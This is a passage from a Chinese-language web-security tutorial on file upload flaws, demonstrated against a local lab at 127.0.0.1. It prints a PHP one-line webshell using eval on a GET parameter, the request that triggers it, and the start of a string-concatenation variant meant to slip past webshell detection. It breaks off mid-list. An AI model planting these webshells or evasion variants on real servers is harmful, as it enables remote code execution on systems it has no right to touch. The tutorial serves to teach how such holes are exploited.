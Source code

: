 中间没有任何限制，也就是说上传 PHP 文件也可以，简单写个包含 phpinfo() 的 php 文件：

复制代码

```
<?php phpinfo(); ?>
```

上传后有路径提示：

![图片2.png](https://s0.lgstatic.com/i/image2/M01/09/6B/Cip5yGAOpQyAZX8VAAIOqsWIghc896.png)

图 2 上传 PHP 成功

访问地址：http://127.0.0.1/hackable/uploads/phpinfo.php，可以看到 phpinfo() 已经被执行成功。

![图片3.png](https://s0.lgstatic.com/i/image/M00/91/7B/Ciqc1GAOpSaARCD_AALlCWvyDKc931.png)

图 3 解析成功的 phpinfo

就如果我们上传的 PHP 是更多恶意功能的脚本，就可以实现更多攻击行为。

### 利用漏洞上传 Webshell

#### 1.一句话木马

提到 Webshell 木马，就不得不提下“一句话木马”。PHP 一句话木马可以通过 GET、POST、COOKIE 这几种方式提交数据，然后将数据传递给代码/命令执行函数，从而实现任意代码/命令执行。

比如以下这个一句话木马：

复制代码

```
<?php eval(@$_GET['a']); ?>
```

将上述代码保存为 eval.php 并上传至网站，然后构造请求：

复制代码

```
http://127.0.0.1/hackable/uploads/eval.php?a=phpinfo();
```

利用一句话木马成功执行 phpinfo() 函数。

![图片4.png](https://s0.lgstatic.com/i/image/M00/91/86/CgqCHmAOpTmAfY3IAARME2KRqaY914.png)

图 4 利用一句话木马执行代码

有时为了绕过木马检测，攻击者会对一句话进行混淆变形，比如下面几句。

- **利用字符串拼接执行函数名：**

复制代码

```
<?php

$a="e"."v";

$b="a"."l";

$c=$a.$b;

$c($_POST['a']);

?>
```

